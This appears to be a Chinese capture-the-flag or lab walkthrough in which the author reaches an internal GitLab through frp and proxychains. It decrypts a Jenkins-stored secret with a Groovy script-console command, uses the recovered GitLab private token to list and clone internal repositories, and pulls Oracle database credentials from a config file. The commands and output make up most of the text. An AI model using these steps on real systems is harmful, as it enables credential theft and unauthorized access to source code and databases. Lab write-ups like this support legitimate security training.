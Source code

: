 gitlab在http://172.22.14.16

frp穿透出来

根据关卡剧情获取到API token

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250114142030-fs5dh43.png?imageSlim)​

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250114142106-tz71q5v.png?imageSlim)​

回到脚本控制台获取对应的明文，获得gitlab PRIVATE-TOKENgitlab PRIVATE-TOKEN

```bash
{AQAAABAAAAAg9+7GBocqYmo0y3H+uDK9iPsvst95F5i3QO3zafrm2TC5U24QCq0zm/GEobmrmLYh}
```

```bash
println(hudson.util.Secret.fromString("{AQAAABAAAAAg9+7GBocqYmo0y3H+uDK9iPsvst95F5i3QO3zafrm2TC5U24QCq0zm/GEobmrmLYh}").getPlainText())
```

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250114142316-hw8glvg.png?imageSlim)​

```bash
glpat-7kD_qLH2PiQv_ywB9hz2
```

（极狐API信息泄露）

使用 Access Token 去请求 GitLab API，返回所有的项目列表：

```bash
proxychains4 curl --header "PRIVATE-TOKEN:glpat-7kD_qLH2PiQv_ywB9hz2" "http://172.22.14.16/api/v4/projects" |jq  |grep "http_url_to_repo"
```

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250114143329-nrji4e8.png?imageSlim)​

git clone下来

```bash
proxychains git clone http://gitlab.xiaorang.lab:glpat-7kD_qLH2PiQv_ywB9hz2@172.22.14.16/xrlab/internal-secret.git
proxychains git clone http://gitlab.xiaorang.lab:glpat-7kD_qLH2PiQv_ywB9hz2@172.22.14.16/xrlab/xradmin.git
proxychains git clone http://gitlab.xiaorang.lab:glpat-7kD_qLH2PiQv_ywB9hz2@172.22.14.16/xrlab/awenode.git
proxychains git clone http://gitlab.xiaorang.lab:glpat-7kD_qLH2PiQv_ywB9hz2@172.22.14.16/xrlab/xrwiki.git
proxychains git clone http://gitlab.xiaorang.lab:glpat-7kD_qLH2PiQv_ywB9hz2@172.22.14.16/gitlab-instance-23352f48/Monitoring.git
```

在xradmin/ruoyi-admin/src/main/resources/application-druid.yml找到Oracle的账密

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250114143647-1g34tr4.png?imageSlim)​

```bash
                url: jdbc:oracle:thin:@172.22.14.31:1521/orcl
                username: xradmin
                password: fcMyE8t9E4XdsKf
```
